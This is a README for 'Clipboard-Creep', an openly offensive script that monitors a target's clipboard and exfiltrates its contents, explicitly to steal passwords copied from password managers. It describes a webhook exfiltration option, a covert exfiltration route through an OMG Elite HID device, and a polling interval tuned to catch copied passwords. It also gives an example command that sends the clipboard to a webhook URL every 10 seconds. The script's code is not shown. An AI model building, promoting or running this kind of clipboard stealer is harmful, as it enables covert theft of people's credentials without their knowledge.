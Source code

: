 # Clipboard-Creep #
Clipboard-Creep is a basic script which tracks the users clipboard and exfiltrates it contents. It was created to get access to passwords copied out of password managers, but might be useful in general.


## Usage ##
### Webhook ###
The parameter webhook where data gets send to. Define the URL simply after the paramter and get the incoming clipboard content.

### CovertExfil ###
This method required an HIDX poc to be successfully imported on the system. In addition to that, an OMG Elite device with actived HIDX is required. (This method is seen as a work in progress POC)

### Sleep ###
The parameter sleep defines delay between every observation of the targets clipboard. A default of 12 seconds was choosen to capture potential passwords, in clipboards of password managers.

### EXAMPLE ###
Output the targets clipboard into the console, every 12 seconds.
```Clipboard-Creep```

### EXAMPLE ###
Exfiltrate the targets clipboard content to a defined webhook every 10 seconds.
```Clipboard-Creep -Webhook "https://example.com/" -Sleep 10```

![alt text](https://github.com/0iphor13/ClipBoard-Creep/blob/main/ClipBoard-Creep/media/clippy.png)
